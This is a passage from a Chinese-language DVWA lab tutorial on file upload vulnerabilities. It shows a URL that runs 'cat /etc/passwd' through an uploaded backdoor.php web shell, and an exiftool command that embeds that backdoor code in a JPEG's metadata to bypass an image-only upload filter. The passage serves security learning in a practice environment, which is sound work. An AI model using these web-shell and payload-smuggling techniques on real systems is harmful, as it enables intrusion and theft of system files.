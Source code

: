 现在我们只需要输入包含我们命令的 URL:

`[http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd](http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd)`

我们可以再次看到文件输出！

![](img/8e3517d5e180053732d8559e717e33b2.png)

我们准备好最后一步了，把难度设高，看下一段！

# 步骤 DVWA 高安全性中的文件上传漏洞

我们已经到了最后一步，无论我们在前面几关尝试了什么，在这里都不起作用了！
这次我们想用 php 执行文件，但是我们可以只上传图片。
我们将使用的一个技巧是改变随机图像中的元数据，并强制服务器将其作为文件读取。

第一步是使用 [**exiftool**](https://exiftool.org/) 通过在我们的 Kali linux 终端上键入以下代码来更改带有后门代码的 DocumentName:

`exiftool -DocumentName="$(cat backdoor.php)" image.jpeg`

其中“*image.jpeg*”是随机的 jpeg 图像，“*backdoor.php*”是我们之前见过的后门。

现在，如果我们检查元数据，用:

`exiftool image.jpeg`

输出应该如下所示:
